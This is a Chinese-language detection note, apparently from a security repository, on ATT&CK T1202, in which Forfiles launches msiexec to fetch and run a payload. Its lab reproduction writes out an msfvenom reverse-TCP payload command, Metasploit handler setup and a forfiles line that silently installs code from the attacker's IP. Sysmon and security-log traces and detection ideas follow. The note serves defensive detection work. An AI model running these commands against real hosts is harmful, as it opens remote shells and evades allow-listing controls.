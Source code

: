 # T1202-win-间接命令执行-基于Forfiles执行payload(白名单)

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)>

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

Windows 7 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=8888 -f msi > abc.txt
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 8888
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"
```

#### 反弹shell

反弹shell失败！！！但不影响后续分析

## 测试留痕

```log
#sysmon日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:27:08.447
ProcessGuid: {bb1f7c32-2a5c-5e9b-0000-0010b3101d00}
ProcessId: 588
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: /q /i http://192.168.126.146/abc.txt
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020b86d0600}
LogonId: 0x66db8
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-2a5c-5e9b-0000-00100a101d00}
ParentProcessId: 1220
ParentImage: C:\Windows\System32\forfiles.exe
ParentCommandLine: forfiles  /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"


#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x4c4
新进程名: C:\Windows\System32\forfiles.exe
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

基于白名单Forfiles执行payload

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-84_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Forfiles%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%9B%9B%E5%AD%A3.md>
